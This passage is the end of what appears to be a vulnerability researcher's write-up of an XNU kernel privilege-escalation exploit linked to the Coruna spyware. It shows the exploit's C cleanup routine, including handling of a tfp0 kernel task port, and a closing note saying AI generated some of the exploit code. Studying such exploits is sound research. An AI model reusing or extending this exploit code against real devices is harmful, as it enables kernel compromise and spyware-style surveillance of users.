            mach_task_self(), reply_port, MACH_PORT_RIGHT_RECEIVE, -1);
    }
    if (buf64k != NULL) {
        vm_deallocate(
            mach_task_self(), (vm_address_t)buf64k, 0x10000);
    }
    free(fl);
    destroy_minimal_thread_message_channel(&thread_channel);
    if (MACH_PORT_VALID(host_port)) {
        mach_port_deallocate(mach_task_self(), host_port);
    }

    printf("[+] cleanup complete\n");

#if ENABLE_HELPER
    if(tfp0) {
	    term_kexecute();
	    mach_port_deallocate(mach_task_self(), tfp0);
    }
#endif

    return 0;
}

```

The remaining live lockf data is freed and filled entirely with 0s..



# Future plans

So far, I have examined the pendulum PE vulnerability used by the Coruna spyware.

While using ChatGPT/AI, I repeatedly read the xnu source code and examined kernel dumps to understand the parts I did not understand, but it was not easy. Some of the exploit code was generated by AI, and there seem to have been quite a few places where local variable or function names were unsuitable or ambiguous.. Now that I understand the exploit, I plan to rewrite it from scratch when I have time.
